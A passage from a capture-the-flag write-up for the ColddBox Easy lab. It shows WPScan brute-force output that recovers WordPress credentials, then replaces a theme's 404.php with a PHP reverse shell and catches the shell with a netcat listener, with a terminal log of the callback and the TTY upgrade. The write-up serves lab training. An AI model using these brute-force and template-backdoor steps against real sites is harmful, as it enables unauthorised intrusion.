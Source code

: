~~~
[+] Performing password attack on Wp Login against 4 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                       
^Cying philip / heyhey Time: 00:25:13 <                                     > (6254 / 57378791)  0.01%  ETA: ??:??:??
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output./ 57378791)  0.01%  ETA: ??:??:??
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Thu Apr 29 13:47:33 2021
[+] Requests Done: 6277
[+] Cached Requests: 47
[+] Data Sent: 2.115 MB
[+] Data Received: 22.922 MB
[+] Memory used: 164.195 MB
[+] Elapsed time: 00:25:22

Scan Aborted: Canceled by User
~~~

I aborted the brute force process after I found valid credentials (`c0ldd:9876543210`) and successfully connected.

## Reverse shell

We'll backdoor the 404 error page of the twentfifteen template (http://10.10.124.236/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen).

Replace the entire content with the PHP source of a PHP reverse shell, and save the modifications.

Then open a listener, and browse the 404.php page (http://10.10.124.236/wp-content/themes/twentyfifteen/404.php).

~~~
kali@kali:/data/ColddBox_Easy$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.124.236] 60738
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:55:56 up 44 min,  0 users,  load average: 0.00, 0.34, 1.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ColddBox-Easy:/$ <Ctrl+Z>
[1]+  Stopped                 rlwrap nc -nlvp 4444
kali@kali:/data/ColddBox_Easy$ stty raw -echo
kali@kali:/data/ColddBox_Easy$ fg
www-data@ColddBox-Easy:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ColddBox-Easy:/$ 
~~~
